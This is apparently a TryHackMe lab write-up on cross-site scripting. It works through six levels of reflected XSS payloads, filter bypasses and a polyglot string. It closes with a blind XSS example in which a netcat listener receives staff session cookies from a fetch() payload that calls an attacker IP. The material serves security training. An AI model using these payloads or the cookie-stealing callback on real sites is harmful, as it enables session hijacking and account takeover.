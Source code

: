# Part 1
The aim for each level will be to execute the JavaScript alert function with the string THM

## Level 1

You're presented with a form asking you to enter your name, and once you've entered something, it will be presented on a line below.

If you view the Page Source, You'll see the text you just entered reflected in the code.

We can simply pass in `<script>alert('THM')</script>` to complete this level

## Level 2

Level 2 starts with the same form, however when you submit what you put shows up in an input field.

In order to run a payload we need to escape the input tag. This can be done like so `"><script>alert('THM');</script>`

## Level 3

Same things as the previous 2 levels, but the input is now in a text field.

escaping the text field can be done like so `</textarea><script>alert('THM')</script>`

## Level 4

Same input as previous levels however the name is put in by JS code. In order to run our code, we have to escape the previous function. This can be done like so ``';alert('THM');//``

## Level 5

Input is sanitized on the backend by removing keywords like script. We can bypass this by embedding keywords within themselves so what's sent back to the webpage is the script. ``<sscriptcript>alert('THM');</sscriptcript>``

## Level 6

Our input is reflected as the source of an image. Attempting to bypass this in a similar way to level 2 does not work as the tags <> are filtered out. Instead you can use a payload like this `/images/cat.jpg" onload="alert('THM');` that executes when the image is loaded

## XSS Polyglot

An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one. 

A polyglot that would work for all 6 levels is shown below

``jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e``

# Practical Example Blind XSS

This lab has an input form, the user's input is put into a text field. The text field can simply be escaped and an xss payload executed. In this case a simple alert  `</textarea><script>alert('THM');</script>` for a proof of concept.

When viewing the ticket that was just created, we see that the script executes properly.

With a proof of concept executed, the script can be expanded to attempt to hijack a "staff" session.

To start, we'll want to setup a server to which our script can callback. This can be done using [[Netcat]] `nc -nlvp 9001 

Now that we have a server listening for the callback, we can create a script that sends information to us. `</textarea><script>fetch('http://10.13.50.190:9001?cookie=' + btoa(document.cookie) );</script>`

After some time a "staff member" checks the ticket, forwarding the following cookie information to our listening port. 4AB305E55955197693F01D6F8FD2D321